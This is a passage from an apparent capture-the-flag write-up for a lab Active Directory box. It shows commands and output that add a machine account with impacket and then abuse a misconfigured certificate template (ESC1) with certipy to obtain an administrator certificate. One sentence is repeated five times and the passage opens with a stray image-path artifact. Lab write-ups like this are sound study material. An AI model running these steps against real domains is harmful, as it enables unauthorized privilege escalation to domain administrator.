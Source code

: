 In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.

In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.

In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.

In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.

In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.

So we need Computer Account lets see if we can create.

### Create computer account

![alt text](../assets/images/authority11.png)

Yess!! we can.

```bash
➜  authority addcomputer.py authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name irem -computer-pass Winter2025! -dc-host AUTHORITY.authority.htb
/usr/local/bin/addcomputer.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'addcomputer.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account irem$ with password Winter2025!.
```

now lets try ESC1 with computer account.!!!

```bash
➜  authority certipy-ad req -username irem$ -password 'Winter2025!' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: authority.htb.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

and bam!!!!!!!!!!!!!!1
